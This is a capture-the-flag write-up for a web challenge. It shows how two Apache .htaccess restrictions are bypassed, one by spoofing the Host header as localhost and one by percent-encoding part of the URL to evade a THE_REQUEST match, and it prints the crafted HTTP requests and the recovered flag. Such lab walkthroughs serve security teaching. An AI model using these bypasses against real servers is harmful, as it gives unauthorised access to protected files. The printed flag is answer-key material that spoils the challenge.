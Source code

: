 # Tags
- htaccess

# Intro

Your job is to bypass these htaccess restrictions and view the flag files anyway. Good luck!

The page shows the following information:


Helicoptering

The two parts of the flag are available at the locations below:

    part one
    part two

Unfortunately, they are both protected by an .htaccess file:
one/.htaccess

RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]
    

two/.htaccess

RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]
    

Your job is to bypass these restrictions and view the flag files anyway. Good luck!

# Solution: part 1

The first condition was easy, just change the host header to localhost

GET /one/flag.txt HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://htaccess.uctf.ir/
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

Flag: `uctf{Sule_`


# Solution: part 2

THE_REQUEST variable represents original request received by Apache from your browser and it doesn't get overwritten after execution of some rewrite rules. 
The THE_REQUEST server variable contains the initial request header of the form: GET /two/flag.txt HTTP/1.1

If there is a condition like: `RewriteCond %{THE_REQUEST} flag` it can be bypassed by using percent encoding.
Since THE_REQUEST brings the HTTP header: `GET /two/flag.txt HTTP/1.1`, we can bypass it by encoding the "a" character like: %61.
Using the final payload: `GET /two/fl%61g.txt HTTP/1.1`, we get the flag: `Dukol_waterfall}`


`uctf{Sule_Dukol_waterfall}`
